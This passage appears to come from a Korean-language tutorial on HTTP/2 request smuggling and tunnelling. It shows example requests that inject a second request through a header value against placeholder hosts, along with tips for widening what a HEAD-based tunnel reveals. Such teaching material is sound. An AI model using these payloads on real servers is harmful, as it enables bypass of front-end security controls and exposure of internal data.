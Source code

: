 취약점이 존재할 경우 아래와 같은 응답을 받게됩니다.
```
POST /comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

comment=X-Internal-Header: secretContent-Length: 3
x=1
```

## 🔸 03-03. Blind Request 터널링

Front-end에서 응답의 Content-Length를 이용해 Body를 읽어들이는 경우, 공격자는 첫번째 응답의 크기(Wrapper 응답 패킷의 Content-Length) 만큼만 볼 수 있습니다.
Smuggling 된 요청의 응답을 볼 수 없으므로 요청의 성공 여부를 확인할 수 없습니다.

## 🔸 03-04. HEAD를 이용한 Non-blind request 터널링

HEAD 메소드를 이용하여 Blind 터널링을 Non-blind 터널링으로 전환 시킬 수 있습니다.

HEAD 요청에 대한 응답에는 Body가 없음에도 Content-Length 헤더가 포함되어 있는 경우가 있습니다. 이것은 동일 URL의 GET 요청에 대한 응답의 길이를 나타냅니다.
일부 Front-end는 HEAD 메소드 임에도 불구하고 Content-Length에 지정된 바이트 수에 관계없이 Body를 읽어 응답에 포함시키기도 합니다.

✉ **Request**
```
:method     |    HEAD
:path       |    /example
:authority  |    test.com
foo         |    bar\r\n
\r\n
GET /tunnelled HTTP/1.1\r\n
Host: test.com\r\n
X: x
```
✉ **Response**
```
:status         |    200
content-type    |    text/html
content-length  |    131

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 4286

<!DOCTYPE html>
<h1>Tunnelled</h1>
<p>This is a tunnelled respo
```

HEAD 응답 패킷의 Content-Length가 터널링하여 보려는 응답 패킷의 길이보다 짧은 경우, 잘려서 보이게 됩니다. 이때, 아래와 같은 방법을 사용할 수 있습니다.
> - 더 큰 길이를 반환하는 경로로 HEAD 요청을 합니다.
> - Content-Length 가 짧아 내용이 잘려 보인다면 파라미터의 값이 응답 페이지에 출력되는 URL에서 파라미터에 임의의 값을 채워 넣으며 HEAD 메소드로 요청합니다. 
파라미터 값이 길어짐에 따라 Content-Length의 길이도 길어져 터널링 된 내용이 더 보이게 됩니다.
> - Content-Length 가 너무 길어 응답이 오지 않는 경우(대기 상태), 내부에 삽입된 터널링 요청을 파라미터 값을 받아 응답에 출력하는 URL로 변경 후,
파라미터 값에 임의의 값을 입력하여 터널링 요청의 응답이 길어지도록 합니다. 딱 맞추거나 조금 넘는 경우 응답이 오게 됩니다.
